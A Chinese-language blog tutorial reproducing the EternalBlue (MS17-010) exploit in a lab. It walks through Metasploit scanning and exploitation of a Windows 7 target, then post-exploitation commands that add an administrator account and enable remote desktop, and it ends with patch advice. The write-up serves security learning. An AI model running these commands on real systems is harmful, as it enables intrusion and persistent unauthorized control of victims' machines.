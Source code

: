 ```yaml
---
title: 永恒之蓝漏洞(ms17-010)复现
date: 2019-08-7 15:20:00
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - 漏洞复现
    - 永恒之蓝漏洞
    - ms17-010
---
```


# 0x01 漏洞概述
永恒之蓝漏洞（Eternalblue）是方程式组织在其漏洞利用框架中一个针对SMB服务进行攻击的漏洞，该漏洞导致攻击者在目标系统上可以执行任意代码。Eternalblue通过TCP端口445和139来利用SMBv1和NBT中的远程代码执行漏洞，无需用户进行任何操作，就可以中招。

***
# 0x02 影响版本
目前已知受影响的Windows 版本包括但不限于：
WindowsNT
Windows2000、Windows XP、Windows 2003、Windows Vista、Windows 7、Windows 8
Windows Server 2008、Windows Server 2008 R2、Windows Server 2012 SP0

***
# 0x03 漏洞复现
## 复现环境
攻击机：kali 2.0 
靶机：Windows 7 X64 （192.168.159.133）


## 发现主机
两种方法
### 一、使用nmap扫描
`nmap -r 192.168.159.0/24C`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190807171738.png)

### 二、使用msf扫描模块
 kali 执行 `msfconsole` 进入MSF框架

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190807172414.png)

搜索ms17_010
`search ms17_010`
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190807172807.png)

使用ms17-010扫描模块，对靶机Win7进行扫描
使用模块
`use auxiliary/scanner/smb/smb_ms17_010`

设置目标ip
`set RHOSTS 192.168.159.133`

执行
`run`
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190807173247.png)

## Get Shell
使用模块
`use exploit/windows/smb/ms17_010_eternalblue`

设置目标ip
`set RHOSTS 192.168.159.133`

查看选项
`shwo options`

执行
`exploit`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190807173713.png)

成功拿到shell
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190807174031.png)

## 控制提权

windows shell 下执行：
新建用户
`net user dylan 123456 /add`

添加管理组
`net localgroup administrators dylan /add`

开启远程桌面
`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f`

kali 登陆远程桌面：
`rdesktop 192.168.159.133:3389`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190807175105.png)

***
# 0x04 漏洞修复
* 在线更新：开启Windows Update更新。
* 打补丁：[点击下载](https://docs.microsoft.com/zh-cn/security-updates/Securitybulletins/2017/ms17-010)

***
# 参考文章
[永恒之蓝漏洞复现(ms17-010)](https://www.freebuf.com/column/193681.html)
[MS17-010 基于"永恒之蓝"实现Windows Getshell](https://blog.51cto.com/chenxinjie/2092754?from=timeline)